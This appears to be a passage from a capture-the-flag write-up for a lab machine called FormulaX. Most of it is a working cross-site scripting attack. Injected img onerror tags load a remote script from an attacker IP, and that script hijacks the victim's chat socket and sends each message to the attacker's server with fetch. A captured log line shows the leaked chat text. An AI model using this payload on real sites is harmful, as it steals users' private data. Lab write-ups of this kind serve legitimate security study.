 ```html
<!-- Injection -->
<img src=y onerror='const sock=document.createElement(`script`);sock.src=`/socket.io/socket.io.js`,document.body.appendChild(sock);'>
<img src=x onerror='const xss=document.createElement(`script`);xss.src=`http://10.10.16.75:8890/xss.js`,document.body.appendChild(xss);'/>
```

```js
// xss.js
let value;
const res = axios.get(`/user/api/chat`);
const socket = io("/", { withCredentials: true });

socket.on("message", (msg) => {
  fetch("http://10.10.16.75:8888/?m=" + msg);
});

const typing_chat = () => {
  value = "history";
  if (value) {
    socket.emit("client_message", value);
  }
};

typing_chat();
```

![Writeup-4.png](/assets/images/Machines/FormulaX/Writeup-4.png)

```log
10.10.11.6 - - [17/Jun/2024 12:38:39] "OPTIONS /?m=Write a script for dev-git-auto-update.chatbot.htb to work properly HTTP/1.1" 501 -
```
